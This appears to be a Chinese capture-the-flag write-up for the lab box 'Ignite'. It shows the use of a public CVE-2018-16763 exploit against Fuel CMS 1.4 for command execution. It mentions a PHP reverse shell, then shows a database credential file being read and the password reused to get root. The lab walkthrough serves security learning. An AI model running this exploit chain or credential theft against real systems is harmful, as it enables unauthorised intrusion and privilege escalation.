 ```yaml
---
sidebar_position: 16
tags: [Easy, Linux, 命令执行, 密码重用]
title: Ignite
sidebar_label: Ignite
---
```

# Ignite
## 端口扫描
![20240529105018](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240529105018.png)

## 80 - HTTP
访问网页显示是一个 Fuel CMS 1.4 , 直接找 [CVE-2018-16763](https://github.com/padsalatushal/CVE-2018-16763) 执行就可以了

## 后渗透
### www-data


```bash
root@ip-10-10-108-139:~/CVE-2018-16763# ./exploit.py -u http://10.10.253.231/
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)


Enter Command $
```

我们将这个 shell 提升为交互 shell, 选择上传一个 php reverse shell， 然后访问他， 来获取一个完美的 shell

![20240529105648](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240529105648.png)

### www-data --> root

使用 chatGpt 查找了 fuel 的数据库配置文件后， 我们前往查看

```bash
(remote) www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php 
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
	@include(TESTER_PATH.'config/tester_database'.EXT);
}
```

尝试密码重用

```bash
(remote) www-data@ubuntu:/var/www/html/fuel/application/config$ su root
Password: 
root@ubuntu:/var/www/html/fuel/application/config# id
uid=0(root) gid=0(root) groups=0(root)
```